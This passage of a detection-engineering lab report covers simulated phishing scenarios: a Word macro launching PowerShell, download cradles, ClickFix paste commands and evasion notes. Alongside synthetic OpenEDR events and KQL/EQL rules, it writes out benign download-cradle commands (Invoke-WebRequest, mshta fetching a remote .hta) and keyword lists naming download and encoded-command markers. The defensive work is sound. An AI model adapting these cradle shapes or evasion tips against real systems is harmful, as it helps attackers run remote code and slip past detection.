## 11. Scenario S1 – Weaponised Document

| Attribute | Detail |
|---|---|
| Scenario ID and name | S1 – Weaponised Document |
| Objective | Catch the most reliable phishing-execution signal: a macro launching a child process from an Office application |
| MITRE ATT&CK | T1566.001 Spearphishing Attachment, T1204.002 Malicious File, T1059.001 PowerShell |
| Fidelity | **High.** Alert on a single event with no threshold |

**What OpenEDR observes.** A process-create event whose parent is an Office binary and whose child is an interpreter or LOLBin. The relationship is the detection. The child's command line only confirms intent.

**Benign simulation command** (macro payload from the assignment, not executed):

```powershell
powershell -NoProfile -Command "Write-Host lab-macro-fired"
```

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T10:52:18.640Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "process", "action": "process_create" },
  "openedr": { "baseEventType": 1 },
  "process": {
    "pid": 7588,
    "name": "powershell.exe",
    "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
    "command_line": "powershell -NoProfile -Command \"Write-Host lab-macro-fired\"",
    "parent": {
      "pid": 7420,
      "name": "winword.exe",
      "executable": "C:\\Program Files\\Microsoft Office\\root\\Office16\\WINWORD.EXE"
    }
  }
}
```

**Figure 18.** S1 record: Word launches PowerShell, which only prints a word. (Event S1-02)

**Relevant fields.** `event.category`, `process.parent.name`, `process.name`, `process.command_line`, `user.name`.

**Detection query (KQL).**

```kql
event.category : "process"
  and process.parent.name : ("winword.exe" or "excel.exe" or "powerpnt.exe" or "outlook.exe")
  and process.name : ("powershell.exe" or "cmd.exe" or "wscript.exe" or "cscript.exe"
  or "mshta.exe" or "rundll32.exe" or "regsvr32.exe")
```

**Expected matching records.** 1 record (S1-02). The control CTL-05, where Word starts `splwow64.exe` to print, is correctly excluded because it is not in the interpreter list. Neither the query nor the alert needs aggregation.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 19.** Detection mock-up for S1. The full Discover view and process tree are in section 16.

**Why the detection works.** Word and Excel have almost no legitimate reason to start a shell. An attacker can obfuscate a command line endlessly but cannot easily hide that Word launched it, so parent-child is more robust than any keyword.

**Potential false positives.** Rare but real: legacy add-ins and document-management macros that shell out, and finance workbooks that call scripts. Handle these with narrow exceptions on the exact command line, not on the parent.

**Known evasion.** A macro that creates the process through WMI makes the parent `wmiprvse.exe`, and scheduled-task launches have a similar effect. The query then misses, so High fidelity means few false alarms and does not mean complete coverage.

## 12. Scenario S2 – Phishing Link

| Attribute | Detail |
|---|---|
| Scenario ID and name | S2 – Phishing Link and Download Cradle |
| Objective | Catch the moment a clicked link leads to a PowerShell cradle or signed binary fetching a remote payload |
| MITRE ATT&CK | T1566.002 Spearphishing Link, T1204.001 Malicious Link, T1105 Ingress Tool Transfer, T1218 System Binary Proxy Execution |
| Fidelity | **Medium-High.** Add a parent filter, and correlate to confirm |

The assignment defines two shapes and two queries. T1218 belongs to the LOLBin shape (`mshta`, `regsvr32`, `rundll32`). The PowerShell shape is better described by T1059.001 and T1105. Both are covered here, although the brief named only the PowerShell shape.

**What OpenEDR observes.** A process with a remote-fetch argument, an outbound connection from that same process, and often a file written to Temp or Downloads.

**Benign simulation commands** (not executed):

```powershell
# PowerShell shape, from the assignment
powershell -NoProfile -Command "Invoke-WebRequest https://example.com -OutFile $env:TEMP\lab_fetch.txt"

# LOLBin shape: Atomic Red Team T1218.005, benign default payload, in the assignment.
# Represented in the synthetic data by:
mshta.exe https://example.com/lab_probe.hta
```

In this simulation the cradle starts from a shortcut, so its parent is `explorer.exe` and `$env:TEMP` stays literal in the command line. Run from a PowerShell prompt, the parent would be `powershell.exe` and the path would appear already expanded.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T11:07:15.220Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "process", "action": "process_create" },
  "openedr": { "baseEventType": 1 },
  "process": {
    "pid": 5512,
    "name": "powershell.exe",
    "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
    "command_line": "powershell -NoProfile -Command \"Invoke-WebRequest https://example.com -OutFile $env:TEMP\\lab_fetch.txt\"",
    "parent": { "pid": 2284, "name": "explorer.exe", "executable": "C:\\Windows\\explorer.exe" }
  }
}
```

**Figure 20.** Event 1 of 3, process execution. (Event S2-01)

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T11:07:16.310Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "network", "action": "network_connect_out" },
  "openedr": { "baseEventType": 40 },
  "process": {
    "pid": 5512,
    "name": "powershell.exe",
    "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
  },
  "network": { "direction": "outbound", "transport": "tcp" },
  "source": { "ip": "10.0.3.15", "port": 50844 },
  "destination": { "ip": "203.0.113.10", "port": 443 }
}
```

**Figure 21.** Event 2 of 3, outbound connection from the same PID. The destination is a documentation address standing in for example.com. (Event S2-02)

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T11:07:16.870Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "file", "action": "file_create" },
  "openedr": { "baseEventType": 3 },
  "process": {
    "pid": 5512,
    "name": "powershell.exe",
    "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
  },
  "file": {
    "path": "C:\\Users\\student\\AppData\\Local\\Temp\\lab_fetch.txt",
    "name": "lab_fetch.txt"
  }
}
```

**Figure 22.** Event 3 of 3, file creation by the same PID. (Event S2-03)

**Relevant fields.** `process.name`, `process.command_line`, `process.parent.name`, `process.pid`, `destination.ip`, `destination.port`, `file.path`, `host.name`.

**Detection queries (KQL).** Run both. LOLBin shape:

```kql
event.category : "process"
  and process.name : ("mshta.exe" or "regsvr32.exe" or "rundll32.exe")
  and process.command_line : (*http* or *.hta or *scrobj* or *javascript:*)
```

PowerShell shape:

```kql
event.category : "process" and process.name : "powershell.exe"
  and process.command_line : (*DownloadString* or *DownloadFile* or *Invoke-WebRequest*
  or *Net.WebClient* or *iwr* or *curl*)
```

PowerShell shape with the parent filter the assignment recommends:

```kql
event.category : "process" and process.name : "powershell.exe"
  and process.command_line : (*DownloadString* or *DownloadFile* or *Invoke-WebRequest*
  or *Net.WebClient* or *iwr* or *curl*)
  and process.parent.name : ("explorer.exe" or "msedge.exe" or "chrome.exe" or "firefox.exe"
  or "winword.exe" or "excel.exe" or "outlook.exe")
```

**Correlation.** KQL cannot join events. An analyst can pivot manually with `host.name : "WIN11-LAB01" and process.pid : 5512`, or the join can be automated as an EQL sequence:

```eql
sequence by host.name, process.pid with maxspan=30s
  [process where process.name == "powershell.exe" and
     process.command_line : ("*Invoke-WebRequest*", "*DownloadString*", "*DownloadFile*")]
  [network where network.direction == "outbound"]
  [file where event.action == "file_create"]
```

Three caveats apply. PIDs are reused, so a unique process identifier is preferable if the real telemetry has one. The event order is assumed, and because the file could be created before the connection event is logged, a strict sequence may need loosening. The network and file events must also carry the same PID as the process event, which is an assumption about OpenEDR's output.

**Expected matching records.**

| Rule | Records | Result |
|---|---|---|
| LOLBin KQL | 1 | S2-04 |
| PowerShell KQL | 2 | S2-01 and FP-01 |
| PowerShell KQL with parent filter | 1 | S2-01 only; the SYSTEM updater is removed |
| Correlation | 2 sequences | Both S2-01 and FP-01 confirm |

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 23.** The three correlated S2 events, joined on host and PID 5512.

**Why the detection works.** Each event is weak alone, since PowerShell has legitimate uses, processes connect out, and files appear in Temp. Together they show one process fetching remote content and writing it to disk. The simulated updater shows what correlation does and does not prove: it confirms that a download happened, while the parent filter judges whether that download is suspicious. FP-01 passes correlation and fails the parent filter.

**Potential false positives.** Software updaters, configuration management, developer tooling, and administrators fetching files. `*iwr*` and `*curl*` are short substrings that can match unrelated text. Matching is also case-sensitive here, so `invoke-webrequest` in lower case is missed.

## 13. Scenario S3 – Fake IT / ClickFix

| Attribute | Detail |
|---|---|
| Scenario ID and name | S3 – Fake-IT "Paste This Command" (ClickFix) |
| Objective | Detect a user being talked into pasting a command into the Run dialog |
| MITRE ATT&CK | T1204 User Execution, T1059.001 PowerShell. T1105 and T1218 are possible follow-on |
| Fidelity | **Low-Medium.** The command line carries almost all of the signal |

ATT&CK now also has a specific sub-technique, T1204.004 Malicious Copy and Paste, which names ClickFix directly. It is worth citing alongside the assignment's T1204.

**What OpenEDR observes.** `powershell.exe`, `cmd.exe` or `mshta.exe` with `explorer.exe` as parent, because the Run dialog is hosted by Explorer. There is no document and no clicked link in the tree.

**Benign simulation commands** (Win+R, then paste; not executed):

```powershell
# From the assignment. Produces the right process tree, but does NOT match the query below.
powershell -NoProfile -Command "Write-Host clickfix-lab"

# Variant used here. Still harmless, and carries the `iex` marker the query looks for.
powershell -NoProfile -Command "iex 'Write-Host clickfix-lab'"
```

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

```json
{
  "@timestamp": "2026-11-05T11:33:20.450Z",
  "host": { "name": "WIN11-LAB01" },
  "user": { "name": "student", "domain": "LAB" },
  "event": { "category": "process", "action": "process_create" },
  "openedr": { "baseEventType": 1 },
  "process": {
    "pid": 6044,
    "name": "powershell.exe",
    "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
    "command_line": "powershell -NoProfile -Command \"iex 'Write-Host clickfix-lab'\"",
    "parent": { "pid": 2284, "name": "explorer.exe", "executable": "C:\\Windows\\explorer.exe" }
  }
}
```

**Figure 24.** S3 record: an interpreter started by Explorer, carrying the iex marker. (Event S3-02)

**Relevant fields.** `process.parent.name`, `process.name`, `process.command_line`, `user.name`.

**Detection query (KQL).**

```kql
event.category : "process" and process.parent.name : "explorer.exe"
  and process.name : ("powershell.exe" or "cmd.exe" or "mshta.exe")
  and process.command_line : (*-enc* or *-w hidden* or *http* or *DownloadString*
  or *iex* or *Invoke-Expression*)
```

**Expected matching records.** 5 records. Only two are the paste variants (S3-02 and S3-03). FP-02 is a false positive, and S2-01 and S2-04 match because S2 and S3 look the same when Explorer is the parent. Three pasted commands are missed.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 25.** Five harmless paste variants share one process tree. The verdict comes entirely from the command-line text.

**Why the detection works, and where it stops.** `explorer.exe` starts programs all day, so the parent alone says little. The query works only when the pasted text contains a listed marker. The misses show how thin that is. `-e` is an accepted abbreviation of `-EncodedCommand` that `*-enc*` does not match, and `-EncodedCommand` itself escapes a case-sensitive `*-enc*`.

**Hardening options.** Each of these narrows the gap without closing it.

- Add a lower-cased copy of the command line in Logstash, and query that copy.
- Add abbreviated forms of the encoded-command switch.
- Decode Base64 arguments during enrichment.
- Corroborate with the `RunMRU` registry value, which records Run dialog entries, through OpenEDR's registry monitoring. This is unverified for OpenEDR.

**Potential false positives.** Users and administrators legitimately using Win+R, shortcuts that run PowerShell with URLs (FP-02), and login or support scripts launched through Explorer.

## 14. Detection Query Reference Table

All field names are the assumed ECS-style names from section 6. Replace them with real names after inspecting a live event.

| ID | ATT&CK | KQL filter | Aggregation or correlation | Fidelity |
|---|---|---|---|---|
| R1 | T1033, T1087, T1016, T1018, T1082, T1057 | `event.category : "process" and process.name : ("whoami.exe" or "net.exe" or "net1.exe" or "nltest.exe" or "systeminfo.exe" or "ipconfig.exe" or "arp.exe" or "tasklist.exe" or "hostname.exe")` | 5+ unique `process.name` per `user.name` in 5 min | Medium |
| R1-TUNED | As R1 | `event.category : "process" and process.name : ("whoami.exe" or "net.exe" or "net1.exe" or "nltest.exe" or "systeminfo.exe" or "ipconfig.exe" or "arp.exe" or "tasklist.exe" or "hostname.exe") and process.parent.name : ("powershell.exe" or "wscript.exe" or "cscript.exe" or "winword.exe" or "excel.exe")` | As R1, with parent filter | Medium |
| R2-OUT | T1046, T1018 | `event.category : "network" and network.direction : "outbound" and process.name : ("powershell.exe" or "nmap.exe" or "crackmapexec.exe")` | 20+ unique `destination.ip` per process per min | High on host; blind beyond |
| R2-IN | T1595, T1046 | `event.category : "network" and network.direction : "inbound"` | 20+ unique `destination.port` per `source.ip` per min | High on host; partial visibility |
| S1 | T1566.001, T1204.002, T1059.001 | `event.category : "process" and process.parent.name : ("winword.exe" or "excel.exe" or "powerpnt.exe" or "outlook.exe") and process.name : ("powershell.exe" or "cmd.exe" or "wscript.exe" or "cscript.exe" or "mshta.exe" or "rundll32.exe" or "regsvr32.exe")` | None. Alert on each hit | High |
| S2-LOLBIN | T1566.002, T1204.001, T1105, T1218 | `event.category : "process" and process.name : ("mshta.exe" or "regsvr32.exe" or "rundll32.exe") and process.command_line : (*http* or *.hta or *scrobj* or *javascript:*)` | Pivot to network and file events | Medium-High |
| S2-PS | T1566.002, T1204.001, T1105 | `event.category : "process" and process.name : "powershell.exe" and process.command_line : (*DownloadString* or *DownloadFile* or *Invoke-WebRequest* or *Net.WebClient* or *iwr* or *curl*)` | EQL sequence, 30 s, same host and PID | Medium-High |
| S2-PS-TUNED | As S2-PS | `event.category : "process" and process.name : "powershell.exe" and process.command_line : (*DownloadString* or *DownloadFile* or *Invoke-WebRequest* or *Net.WebClient* or *iwr* or *curl*) and process.parent.name : ("explorer.exe" or "msedge.exe" or "chrome.exe" or "firefox.exe" or "winword.exe" or "excel.exe" or "outlook.exe")` | As S2-PS | Medium-High |
| S3 | T1204 (T1204.004), T1059.001 | `event.category : "process" and process.parent.name : "explorer.exe" and process.name : ("powershell.exe" or "cmd.exe" or "mshta.exe") and process.command_line : (*-enc* or *-w hidden* or *http* or *DownloadString* or *iex* or *Invoke-Expression*)` | None. Treat as a triage lead | Low-Medium |

## 15. Detection Fidelity Comparison

The ranking below is the assignment's own. The simulated results support it.



**Figure 26.** Detection fidelity gradient, strongest to weakest, using the assignment's ratings.

**Cross-match matrix.** Rows are event groups and columns are queries. Each cell gives the number of records returned. It shows that the queries overlap: R2-OUT matches the cradle's connection, and S3 matches both S2 process events.

| Event group | Events | R1 | R1-TUNED | R2-OUT | R2-IN | S1 | S2-LOLBIN | S2-PS | S3 |
|---|---|---|---|---|---|---|---|---|---|
| R1 sweep | 11 | 11 | 9 | · | · | · | · | · | · |
| Admin session | 5 | 5 | · | · | · | · | · | · | · |
| R2 outbound | 25 | · | · | 25 | · | · | · | · | · |
| R2 inbound | 24 | · | · | · | 24 | · | · | · | · |
| S1 macro | 2 | · | · | · | · | 1 | · | · | · |
| S2 cradle | 3 | · | · | 1 | · | · | · | 1 | 1 |
| S2 LOLBin | 2 | · | · | · | · | · | 1 | · | 1 |
| Updater FP | 3 | · | · | 1 | · | · | · | 1 | · |
| S3 variants | 5 | · | · | · | · | · | · | · | 2 |
| S3 FP | 1 | · | · | · | · | · | · | · | 1 |
| Controls | 10 | 1 | · | · | 1 | · | · | · | · |

**Validation of the synthetic data.** A small KQL-subset evaluator ran every query against the dataset and compared the result with hand-written expected hits. Mutation tests confirmed that it can fail. It models keyword-style matching only, so it proves the report is internally consistent. It does not prove the queries work in a real Kibana.

| Query | Expected | Returned | Result |
|---|---|---|---|
| R1 | 17 | 17 | PASS |
| R1-TUNED | 9 | 9 | PASS |
| R2-OUT | 27 | 27 | PASS |
| R2-IN | 25 | 25 | PASS |
| S1 | 1 | 1 | PASS |
| S2-LOLBIN | 1 | 1 | PASS |
| S2-PS | 2 | 2 | PASS |
| S2-PS-TUNED | 1 | 1 | PASS |
| S3 | 5 | 5 | PASS |
| S2 correlation (S2-01, FP-01) | 2 confirmed | 2 confirmed | PASS |
| R1 threshold, `student` | ≥ 5 | 8 | PASS |
| R2 threshold, outbound IPs | ≥ 20 | 25 | PASS |
| R2 threshold, inbound ports | ≥ 20 | 24 | PASS |

## 16. Three or More Simulation Evidence Panels

Three scenarios are shown in full. Each Discover mock-up is generated from the records its query returned in validation.

### Panel A – R1 Host Reconnaissance

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 27.** Simulated R1 process tree. Highlighted nodes match the query; net1.exe is a child of net.exe.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 28.** Discover-style mock-up of the tuned R1 query, showing 9 records and 7 distinct binaries for one user.

**Why the query detects this.** Every row has `event.category` of `process`, a `process.name` in the discovery list and a `process.parent.name` of `powershell.exe`. Seven distinct binaries for `student` within 38 seconds exceeds the threshold of 5.

### Panel B – S1 Weaponised Document

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 29.** Simulated S1 process tree. Word is the parent of an interpreter.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 30.** Discover-style mock-up of the S1 query returning the single matching record.

**Why the query detects this.** The record's `process.parent.name` is `winword.exe` and its `process.name` is `powershell.exe`, which satisfies both lists. The benign command text plays no part in the match, which is why a harmless macro produces the same alert as a real one.

### Panel C – S2 Phishing Link and Download Cradle

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 31.** Simulated S2 process tree with the network and file activity of PID 5512.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM



**Figure 32.** Discover-style mock-up of the PowerShell-shape S2 query before the parent filter, with the updater visible as a false positive.

> SIMULATED EVIDENCE – NOT CAPTURED FROM A LIVE SYSTEM

